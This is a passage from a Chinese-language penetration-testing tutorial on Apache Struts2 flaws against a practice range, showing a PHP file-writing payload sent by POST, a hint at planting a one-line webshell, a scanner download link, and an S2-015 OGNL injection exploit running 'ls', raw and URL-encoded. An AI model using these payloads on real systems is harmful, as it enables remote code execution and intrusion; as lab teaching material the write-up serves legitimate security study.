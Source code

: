 在URL后面添加?a=var_dump(file_put_contents(\$\_POST\[1\],\$\_POST\[2\]));然后使用Post发送1=info.php&2=\<?php phpinfo();?\>。

![image-20230413145208612](https://s2.loli.net/2023/04/13/OU4vrJdaL3uMnTb.png)

#### 3.3.5.3. 访问info.php

这个新生成的页面是在当前目录下，也就是说你访问的是根目录，那么文件就在根目录下，那么这里可以看到我们已经成功生成了，那么如果我们生成的是一个一句话木马呢？

![image-20230413145214768](https://s2.loli.net/2023/04/13/lHuFY2jvQX7cRMg.png)

### 3.3.6. 墨者靶场

#### 3.3.6.1. 靶场链接

靶场链接：https://www.mozhe.cn/bug/detail/253

![image-20230413145220697](https://s2.loli.net/2023/04/13/PE4NvqtpRQsHyT2.png)

#### 3.3.6.2. 测试靶场

这里测试可以使用工具进行测试，工具下载链接：struts2漏洞检测工具：https://pan.baidu.com/s/13yIAHLDY1sZliQI6Wg1ZXA?pwd=t95s 提取码：t95s

通过工具的检测我们可以看到是存在相应的漏洞的。

![image-20230413145226761](https://s2.loli.net/2023/04/13/1LkzGq4MevdgVQx.png)

#### 3.3.6.3. 工具利用

这里我们可以去网上上exp，也可以使用工具直接利用。这里我们就使用工具进行利用，这里我们通过前期的检测，我们检测出存在远程执行漏洞，那么我们可以在漏洞编号上选择相应的编号，然后在命令执行位置，输入想要执行的命令。

可以看到成功执行，后续文件不在测试怎么看key值。

![image-20230413145232479](https://s2.loli.net/2023/04/13/rMNHGsy2nfIw1tD.png)

#### 3.3.6.4. 寻找exp

这里说一下exp:意思就是利用代码，而poc:意思就是验证代码

像这个漏洞可以在网上直接找相关的exp进行操作。

例如这里写入exp的方式利用S2-015漏洞。

```
${#context[‘xwork.MethodAccessor.denyMethodExecution’]=false,#m=#_memberAccess.getClass().getDeclaredField(‘allowStaticMethodAccess’),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(‘ls’).getInputStream()),#q}.action
```

当然这里不能直接输入这样的命令，需要对其进行url编码。

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%2C%23q%7D.action
```
